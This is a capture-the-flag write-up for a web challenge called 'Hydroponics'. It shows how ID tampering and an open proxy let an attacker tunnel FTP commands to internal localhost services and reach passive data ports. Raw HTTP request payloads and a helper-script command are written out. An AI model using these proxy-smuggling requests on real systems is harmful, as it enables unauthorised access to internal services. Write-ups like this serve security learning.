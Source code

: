 ## Hydroponics

By viewing the system configuration, we notice that the application performs a `GET` request towards the following endpoint:

```
/system_configuration.php?id=1
```

By changing the `id` to `2` we get a config for a vsftpd server in which we can see the PASV port range and that anonymous access is available.

From the `plants.php` page we see that a similar request is made towards `details.php`:
We can perform a request with an invalid ID: we will receive a response with the following content:

```html    
    <div>UNEXPECTED ERROR!!</div>
    <!-- TODO: customize this error message -->
    <!-- TODO: also fix that problem with the proxy once I figure how to do it -->
```

Which hints us of the existence of a possible open proxy vulnerability.

We can try to see if the open proxy vulnerability is present by performing the following request:

    GET http://localhost:80 HTTP/1.1
    Host: <CHALLENGE_HOSTNAME>:8000
    Connection: close
    Content-Length: 0

Confirmed, it's present.

We can now leverage this to query the FTP service:

    GET http://localhost:21 HTTP/1.1
    Host: <CHALLENGE_HOSTNAME>:8000
    Connection: close
    Content-Length: 63
    
    USER anonymous
    PASS anonymous
    PASV
    LIST
    QUIT

And by iterating a request towards each of the PASV data ports that get opened by the PASV command and then used by the LIST command (example for port `40000`):
    
    GET http://localhost:40000 HTTP/1.1
    Host: <CHALLENGE_HOSTNAME>:8000
    Connection: close
    Content-Length: 0
    

we can try to retrieve the data. This will not always work, so we need to iterate the requests many time until we get a `200 OK` response.
I have developed a python script that does this automatically: `death_by_proxy.py` (the command is `python death_by_proxy.py -p 40000 -P 40009 -u http://<ip>:8000 -c LIST`).

After doing so we can see that a configuration file is present: we can use it in the web page to reset the system configuration and retrieve the flag.

